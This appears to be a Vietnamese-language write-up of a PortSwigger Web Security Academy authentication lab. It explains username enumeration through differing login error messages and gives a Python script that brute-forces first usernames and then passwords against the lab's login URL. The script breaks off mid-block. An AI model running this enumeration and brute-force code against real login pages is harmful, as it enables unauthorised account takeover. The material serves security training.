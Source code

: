 # Web01

# Authentication vulnerabilities

## Password-based

### Username enumeration via different responses

Khi đăng nhập bằng website với username không tồn tại, server sẽ trả về response có `Invalid username`. Thực hiện brute-force từng username với password bất kỳ, ta nhận được 1 response có `Incorrect password` thay vì `Invalid username` → username đó tồn tại. Lại thực hiện brute-force password với username vừa tìm được, ta nhận được 1 response đăng nhập thành công.

```python
import requests

url = "https://aca41ffe1e463587c02ed38a000b0019.web-security-academy.net/login"

status_code = requests.get(url=url).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

username = None
password = None

for uname in open('username.txt').readlines():
    uname = uname[:-1]
    data = {
        'username': uname,
        'password': 'a'
    }
    print(uname)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Invalid username' not in res:
        username = uname
        break

if username is None:
    print("No username")
    exit(1)

for pwd in open('password.txt').readlines():
    pwd = pwd[:-1]
    data = {
        'username': username,
        'password': pwd
    }
    print(data)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Incorrect password' not in res:
        password = pwd
        break

if password is None:
```